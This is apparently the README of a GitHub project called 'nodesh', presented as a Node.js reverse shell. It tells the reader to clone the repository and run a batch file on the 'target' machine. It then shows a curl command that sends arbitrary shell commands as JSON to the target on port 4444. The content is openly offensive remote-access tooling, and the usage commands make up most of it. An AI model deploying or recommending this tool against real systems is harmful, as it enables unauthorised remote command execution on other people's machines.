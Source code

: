 # nodesh

Nodejs reverse shell.

## Use

Target:

```bash
git clone https://github.com/miguelzacca/nodesh.git
./nodesh/nodesh.bat
```

## Controller (curl or others, ex: Postman):

curl:

```bash
curl <target_ip>:4444/run --json '{"cmd":"<your_command>"}'
```
